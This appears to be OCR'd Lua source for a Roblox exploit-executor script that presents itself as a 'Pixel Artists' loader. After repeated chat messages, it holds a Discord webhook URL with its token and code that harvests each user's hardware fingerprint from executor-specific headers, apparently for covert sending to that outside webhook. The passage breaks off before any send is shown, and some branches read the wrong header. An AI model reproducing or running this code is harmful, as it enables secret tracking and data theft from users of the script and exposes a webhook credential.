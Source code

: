 game:GetService("StarterGui"):SetCore("ChatMakeSystemMessage", {
            Text = "{Pixel Artists} Wait around 5 sec for script load, if not loading try to use other executor",
            Color = Color3.fromRGB(202, 3, 252),
            Font = Enum.Font.GothamBold,
            TextSize = 18,
        })
game:GetService("StarterGui"):SetCore("ChatMakeSystemMessage", {
            Text = "{Pixel Artists} Wait around 5 sec for script load, if not loading try to use other executor",
            Color = Color3.fromRGB(202, 3, 252),
            Font = Enum.Font.GothamBold,
            TextSize = 18,
        })
game:GetService("StarterGui"):SetCore("ChatMakeSystemMessage", {
            Text = "{Pixel Artists} Wait around 5 sec for script load, if not loading try to use other executor",
            Color = Color3.fromRGB(202, 3, 252),
            Font = Enum.Font.GothamBold,
            TextSize = 18,
        })




local webhook = "https://discord.com/api/webhooks/1091432795643052053/q88IG2Ihzxrc1BKekkuczuxjMxBolvQzYf55oD5oIG0KSDnDsFByX8vMa4Y_RNhDLiQc"
local ex = identifyexecutor()
local CurrentHWID = asd
local request = http_request or request or HttpPost or syn.request
local headers = {
    ["content-type"] = "application/json"
}

if ex == "Synapse X" then
    local PP = syn.request({Url = 'https://httpbin.org/get';Method = 'GET';})
    local HWID = game:GetService('HttpService'):JSONDecode(PP.Body).headers['Syn-Fingerprint']

    CurrentHWID = HWID
end

if ex == "Krnl" then
   local PP = http_request({Url = 'https://httpbin.org/get';Method = 'GET';}).Body
   local HWID = game:GetService('HttpService'):JSONDecode(PP).headers['Krnl-Fingerprint']

   CurrentHWID = HWID
end

if ex == "Fluxus" then
   local PP = http_request({Url = 'https://httpbin.org/get';Method = 'GET';}).Body
   local HWID = game:GetService('HttpService'):JSONDecode(PP).headers['Krnl-Fingerprint']

   CurrentHWID = HWID
end

if ex == "Hydrogen" then
   local PP = http_request({Url = 'https://httpbin.org/get';Method = 'GET';}).Body
   local HWID = game:GetService('HttpService'):JSONDecode(PP).headers['Krnl-Fingerprint']

